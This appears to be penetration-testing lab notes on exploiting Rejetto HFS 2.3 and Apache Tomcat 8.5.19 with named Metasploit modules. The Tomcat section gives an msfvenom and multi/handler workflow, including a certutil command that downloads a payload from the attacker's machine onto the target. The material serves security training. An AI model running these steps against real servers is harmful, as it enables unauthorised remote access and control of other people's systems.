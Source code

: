 
---

## Exploiting A Vulnerable HTTP File Server

An HTTP File Server (HFS) is a web server that is designed for file & document sharing.

HFS typically run on TCP port 80 and utilize the HTTP protocol for underlying communication.

Rejetto HFS is a popular free and open source HTTP file server that be setup on both Windows and Linux.

Rejetto HFS V2.3 is vulnerable to a remote command execution attack.

MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS which is:"windows/http/rejetto_hfs_exec"

---

## Exploiting A Vulnerable Apache Tomcat Web Server


Apache Tomcat, also known as Tomcat server, is a popular, free and open source Java servlet web server.

It is used to build and host dynamic websites and web applications based on the Java software platform.

Apache Tomcat utilizes the HTTP protocol to facilitate the underlying communication between the server and clients. 

Apache Tomcat runs on TCP port 8080 by default.

The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.

The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.

Apache Tomcat V8.5.19 is vulnerable to a remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server.

We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server which is: "multi/http/tomcat_jsp_upload_bypass".

This will give us a shell session and not a meterpreter.

We can also create our own meterpreter payload using msfvenom and upload it to the target system. After creating the payload, we will start a http server on our Kali machine using python:`python3 -m http.server` This will start a simple HTTP server on our local machine on port 8000.

To upload the payload on the target system:`certutil -urlcache -f http://(our ip address):(port number)/(path to payload) (name of payload on target system)`

Now, we can start another msfconsole instance and use multi/handler setting the same options we used in the msfvenom creating the payload. We run the multi/handler module. 

We go back to our shell session on the target system and run the payload:`.\(payload file name)`. Now, if we returned back to the multi/handler module, we will find a meterpreter session.




